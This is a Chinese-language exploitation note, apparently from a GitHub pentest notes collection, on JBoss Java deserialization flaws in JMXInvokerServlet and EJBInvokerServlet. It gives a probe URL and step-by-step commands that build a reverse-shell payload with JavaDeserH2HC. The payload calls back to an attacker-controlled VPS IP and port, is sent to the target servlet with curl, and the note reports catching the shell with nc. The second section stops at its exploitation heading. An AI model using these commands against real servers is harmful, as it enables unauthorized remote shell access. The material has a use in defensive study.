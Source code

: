 #### 漏洞描述

由于`JBoss`中`invoker/JMXInvokerServlet`路径对外开放，JBoss的`jmx`组件⽀持Java反序列化

#### 影响版本

实际上主要集中在 jboss 6.x 版本上:

```
 Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```

#### 漏洞利用

验证是否存在此漏洞,直接访问 

```
poc url: http://target/invoker/JMXInvokerServlet 
```

如果像下面一样直接提示下载,则说明目标可能存在此漏洞
![image.png](jboss_getshell.assets/1592147132_5ee63cbc1a637.png!small)

下面使用JavaDeserH2HC 生成反弹 shell 的 payload

```
# cd JavaDeserH2HC/
# javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 公网vps的ip:端口号
# curl http://target/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image.png](jboss_getshell.assets/1592147142_5ee63cc69cac0.png!small)打开nc界⾯，发现shell已经弹回成功了。

### JBoss EJBInvokerServlet 反序列化漏洞（CVE-2013-4810）

#### 漏洞描述

此漏洞和`CVE-2015-7501`漏洞原理相同，两者的区别就在于两个漏洞选择的进行其中`JMXInvokerServlet`和`EJBInvokerServlet`利用的是`org.jboss.invocation.MarshalledValue`进行的反序列化操作，而`web-console/Invoker`利用的是`org.jboss.console.remote.RemoteMBeanInvocation`进行反序列化并上传构造的文件。

#### 影响版本

实际上主要集中在 `jboss 6.x` 版本上:

```
 Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```

#### 漏洞利用
